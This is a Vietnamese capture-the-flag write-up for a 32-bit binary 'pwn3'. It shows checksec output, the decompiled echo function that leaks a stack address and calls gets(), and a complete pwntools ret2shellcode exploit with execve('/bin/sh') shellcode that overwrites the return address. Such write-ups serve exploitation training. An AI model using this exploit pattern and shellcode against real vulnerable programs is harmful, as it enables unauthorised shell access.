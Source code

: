 Dùng file và checksec kiểm tra:

```
$	file pwn3
pwn3: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6ea573b4a0896b428db719747b139e6458d440a0, not stripped

$	checksec pwn3
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX unknown - GNU_STACK missing
PIE:      PIE enabled
Stack:    Executable
RWX:      Has RWX segments
```

File 32 bits, arch i386 và PIE có kích hoạt.
Thấy stack có thể thực thi -> nghĩ ngay đến phương pháp ret2shellcode
Sử dụng ghidra để reverse file, thấy hàm echo đã mác lỗi buffer overflow:

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void echo(void)

{
  char local_12e [294];
  
  printf("Take this, you might need it on your journey %p!\n",local_12e);
  gets(local_12e);
  return;
}
```

Hàm echo in ra địa chỉ trong stack của mảng local_12e, sau đó nhận input:

```
$	./pwn3
Take this, you might need it on your journey 0xffc0e9ae!
```

Chúng ta sẽ đẩy shellcode thực thi execve("/bin/sh"), sau đó ghi đè địa chỉ save rip trong stack của hàm echo bằng địa chỉ đã bị leak để thay đổi luồng của chương trình
Ý tưởng đã có, giờ viết code khai thác:

```
#!/usr/bin/python3
from pwn import *
exe = ELF("./pwn3", checksec = False)
con = process("./pwn3")
shellcode = asm(
    '''
    mov eax, 0x0b
    push 6845231 ;u32("/sh\0")
    push 1852400175 ;u32("/bin")
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    int 0x80
    ''', arch = 'i386')
con.recvuntil(b"journey ")
leak = con.recvline().decode("utf-8")
leak = int(leak.strip("!\n"), 16)
print(hex(leak))
payload = shellcode 
payload = payload.ljust(302)
payload += p32(leak)
con.sendline(payload)
con.interactive()
```

Cho chạy code và lấy được flag
